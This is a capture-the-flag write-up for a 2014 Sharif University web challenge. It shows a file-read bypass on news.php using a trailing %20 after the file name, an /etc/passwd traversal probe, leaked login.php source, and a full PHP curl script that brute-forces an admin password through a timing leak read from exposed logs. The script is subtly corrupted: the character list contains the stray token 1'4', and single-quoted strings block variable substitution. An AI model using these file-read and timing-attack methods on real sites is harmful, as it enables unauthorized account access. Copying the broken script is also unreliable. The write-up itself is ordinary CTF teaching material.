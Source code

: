 # Sharif University Quals CTF 2014: Birthday of Website's Admin

**Category:** Web
**Points:** 400 + 80
**Solves** 0
**Description:**

> This website
> <http://ctf.sharif.edu:16481/login.php>
> is more secure than what you may think :)
>
> Flag is SHA1(Birthday of website's admin, formatted as YYYYMMDD).

## Write-up

Investigating all parts of the site, you'll see that the root page includes two iframes. Each iframe sends a request to news.php with a parameter "title". This parameters seems interesting. Specially, when it is modified, the server rejects by sending an empty response.

Trying some known files: **index.php login.php ../index.php ../../../../../../etc/passwd**; but no success.

Maybe something, e.g. an extension, is concatenated. Unfortunately, **index.php%00** does not work, but, yes, **index.php%20** works!

Lets see the source code of **login.php** via **http://ctf.sharif.edu:16481/news.php?title=login.php%20 **:
```php
<?php
session_start();
if (isset ($_SESSION['login_status']) and $_SESSION['login_status'] === 'authenticated') { // already logged in
  session_write_close ();
  header('Location: /profile.php', true, 303);
  exit (0);
}
$anyerror = false;
if (isset($_POST['action']) && $_POST['action'] === 'login') {
  define ('SAFTY_CHECK', true);
  include 'internals/log.php';
  include 'internals/db.php';
  $useragent=md5($_SERVER['HTTP_USER_AGENT']);
  $username=$_POST['username'];
  $password=$_POST['password'];
  $expected_password = db_retreive_password ($username);
  $anyerror = is_null ($expected_password) || $anyerror;
  $anyerror = strlen ($username) < 3 || $anyerror;
  $anyerror = strlen ($username) > 20 || $anyerror;
  $anyerror = strlen ($password) < 3 || $anyerror;
  $anyerror = strlen ($password) > 50 || $anyerror;
  if ($anyerror === false) {
    check_for_log_rotation ('9cccf42e43cd2eb379259dba5077b1a7.log');
    mylog ('9cccf42e43cd2eb379259dba5077b1a7.log', $useragent, 'checking password');
    for ($i = 0; $i < strlen ($expected_password) and $i < strlen ($password); $i = $i + 1) {
      if (substr ($password, $i, 1) != substr ($expected_password, $i, 1)) { // mismatch
        $anyerror = true;
        break;
      }
    }
    if (strlen ($expected_password) != strlen ($password)) {
      $anyerror = true;
    }
    if ($anyerror) {
      mylog ('9cccf42e43cd2eb379259dba5077b1a7.log', $useragent, 'wrong password');
    } else {
      mylog ('9cccf42e43cd2eb379259dba5077b1a7.log', $useragent, 'correct password');
      $_SESSION['login_status'] = 'authenticated';
      $_SESSION['username'] = $username;
      session_write_close ();
      header('Location: /profile.php', true, 303); // <http://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html#sec10.3.4>;
      exit (0);
    }
  }
}
session_write_close ();
?>
```

There is a log file named **9cccf42e43cd2eb379259dba5077b1a7.log** which seems interesting.

Fetching **http://ctf.sharif.edu:16481/news.php?title=9cccf42e43cd2eb379259dba5077b1a7.log%20**, you will see the log file.

```
The log file is rotated. previous logs are moved to 9cccf42e43cd2eb379259dba5077b1a7.log.backup-1411770914 file.
1411770914.5129 | d41d8cd98f00b204e9800998ecf8427e | checking password
1411770914.513 | d41d8cd98f00b204e9800998ecf8427e | wrong password
1411770914.5334 | fa06a7c9d42ae5b386feae5b01f48a3f | checking password
1411770914.5335 | fa06a7c9d42ae5b386feae5b01f48a3f | wrong password
1411770915.7109 | d41d8cd98f00b204e9800998ecf8427e | checking password
1411770915.711 | d41d8cd98f00b204e9800998ecf8427e | wrong password
1411770915.7178 | 8efa52fbb9c4c46940e54b0dae76d8ba | checking password
1411770915.7179 | 8efa52fbb9c4c46940e54b0dae76d8ba | wrong password
1411770916.1378 | fa06a7c9d42ae5b386feae5b01f48a3f | checking password
1411770916.1379 | fa06a7c9d42ae5b386feae5b01f48a3f | wrong password
1411770917.1523 | 8efa52fbb9c4c46940e54b0dae76d8ba | checking password
...
```
It contains log time, the md5 of user-agent, and the log string. So what? After some investigation, you will notice that the password checking code is interesting:
```php
    for ($i = 0; $i < strlen ($expected_password) and $i < strlen ($password); $i = $i + 1) {
      if (substr ($password, $i, 1) != substr ($expected_password, $i, 1)) { // mismatch
        $anyerror = true;
        break;
      }
    }
    if (strlen ($expected_password) != strlen ($password)) {
      $anyerror = true;
    }
```

It has a time-leackage vulnerability but needs a highly-accurate time sampling. The logs' timestamps help now.

The strategy is as follows:
* Bruteforce the password by a script.
* To guess position 1, try all alphanumeric characters (first guess) and monitor the checking time by fetching the log and extracting your latest logs.
* The md5 of user agent now determines your own logs between the others.
* Each letter which consumes more processing time is the right one.
* Then, proceed to the second letter and so on.
* Be careful that passwords shorter than 3 characters are not processed at all, and it flats the processing time. Choose a dummy three-letter password (for example, " ") and guess the first position.
* Also be aware that a non-existing username also breaks this process. So, enter "admin" as the username from the beginning.

The following script will do this.
```php
<?php
	define('REPEAT_NUM', 3);

	// create curl resource 
	$ch = curl_init(); 

	$useragent = 'mymymyuseragent';

	//return the transfer as a string 
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 

	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, TRUE);
	curl_setopt($ch,CURLOPT_ENCODING , 'gzip');

	curl_setopt($ch, CURLOPT_COOKIESESSION, true);
	curl_setopt($ch, CURLOPT_COOKIEJAR, 'cookie.jar');
	curl_setopt($ch, CURLOPT_COOKIEFILE, 'cookie.data');

	curl_setopt($ch, CURLOPT_HTTPHEADER, array(
		'User-Agent: $useragent'
	));

	$charset = array('0', '1', '2', '3', 1'4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f',/*
		'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
		'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S',
		'T', 'U', 'V', 'W', 'X', 'Y', 'Z'*/);

	$pass = '   ';

	for ($ind = 0; $ind < 50; $ind++)
	{
		echo 'PASS (so far): $pass\n';

		$choices_table = array();
		$choices_sum  = 0;

		foreach ($charset as $val)
		{
			$repeats_sum = 0;
			for ($repeat = 0; $repeat < REPEAT_NUM; $repeat++)
			{
				// try login
				$pass[$ind] = $val;

				curl_setopt($ch, CURLOPT_POST, 1);
				curl_setopt($ch, CURLOPT_POSTFIELDS, 'action=login&username=admin&password=$pass');

				curl_setopt($ch, CURLOPT_URL, 'http://.../login.php');
				$output = curl_exec($ch); 
				if ($output === false)
					die('CURL ERROR: ' . curl_error($ch) . '\n\n');

				// check time in logs
				curl_setopt($ch, CURLOPT_POST, 0);

				curl_setopt($ch, CURLOPT_URL, 'http://.../news.php?title=9cccf42e43cd2eb379259dba5077b1a7.log%20');
				$output = curl_exec($ch); 
				if ($output === false)
					die('CURL ERROR: ' . curl_error($ch) . '\n\n');

				$logs = explode('\n', $output);
				$mylogs = array_values(preg_grep('/' . md5($useragent) . '/', $logs));

				if (sizeof($mylogs) == 0)
					die('LOG OUTPUT: $output\n\n');
				
				sscanf($mylogs[sizeof($mylogs)-2], '%f', $start);
				sscanf($mylogs[sizeof($mylogs)-1], '%f', $end);
				$time = round($end * 10000 - $start * 10000);

				$repeats_sum += $time;
			}

			$avgtime = (float)$repeats_sum / REPEAT_NUM;
			$choices_table[$val] = $avgtime;
			echo 'choices_table[$val] = $avgtime\n';
			$choices_sum += $avgtime;
		}

		$avgtime = (float)$choices_sum / sizeof($charset);
		echo '\navgtime=$avgtime\n\n';

		arsort($choices_table);
		
		foreach($choices_table as $letter => $value)
			break;

		if ($value - $avgtime < 0.5)
			die('no noticeable difference\n\n');

		$pass[$ind] = $letter;
	}

	curl_close($ch);
?>
```
Once the password is revealed, login and obtain the birthday of admin.


## Other write-ups and resources

* <http://ctf.sharif.edu/2014/quals/su-ctf/write-ups/36/>
